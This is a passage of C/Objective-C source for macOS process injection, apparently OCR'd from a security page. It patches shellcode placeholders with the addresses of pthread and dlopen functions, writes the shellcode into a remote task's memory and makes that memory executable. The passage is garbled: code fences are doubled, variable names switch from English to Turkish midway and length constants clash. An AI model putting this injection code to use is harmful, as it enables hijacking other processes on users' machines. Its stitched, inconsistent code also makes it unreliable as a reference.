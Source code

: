 ```objectivec
uint64_t addrOfPthreadCreate = dlsym ( RTLD_DEFAULT, "pthread_create_from_mach_thread"); //(uint64_t) pthread_create_from_mach_thread;
uint64_t addrOfPthreadExit = dlsym (RTLD_DEFAULT, "pthread_exit"); //(uint64_t) pthread_exit;
uint64_t addrOfDlopen = (uint64_t) dlopen;

if (memcmp (possiblePatchLocation, "PTHRDEXT", 8) == 0)
{
memcpy(possiblePatchLocation, &addrOfPthreadExit,8);
printf ("Pthread exit  @%llx, %llx\n", addrOfPthreadExit, pthread_exit);
}

if (memcmp (possiblePatchLocation, "PTHRDCRT", 8) == 0)
{
memcpy(possiblePatchLocation, &addrOfPthreadCreate,8);
printf ("Pthread create from mach thread @%llx\n", addrOfPthreadCreate);
}

if (memcmp(possiblePatchLocation, "DLOPEN__", 6) == 0)
{
printf ("DLOpen @%llx\n", addrOfDlopen);
memcpy(possiblePatchLocation, &addrOfDlopen, sizeof(uint64_t));
}

if (memcmp(possiblePatchLocation, "LIBLIBLIB", 9) == 0)
{
strcpy(possiblePatchLocation, lib );
}
}

// Write the shellcode to the allocated memory
kr = mach_vm_write(remoteTask,                   // Task port
remoteCode64,                 // Virtual Address (Destination)
(vm_address_t) injectedCode,  // Source
0xa9);                       // Length of the source


if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to write remote thread memory: Error %s\n", mach_error_string(kr));
return (-3);
}


// Set the permissions on the allocated code memory
```c
kr  = vm_protect(uzakGorev, uzakKod64, 0x70, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);

if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Uzak iş parçacığının kodu için bellek izinlerinin ayarlanamadı: Hata %s\n", mach_error_string(kr));
return (-4);
}

// Ayrılan yığın belleğinin izinlerini ayarla
kr  = vm_protect(uzakGorev, uzakYığın64, STACK_SIZE, TRUE, VM_PROT_READ | VM_PROT_WRITE);

if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Uzak iş parçacığının yığını için bellek izinlerinin ayarlanamadı: Hata %s\n", mach_error_string(kr));
return (-4);
}
```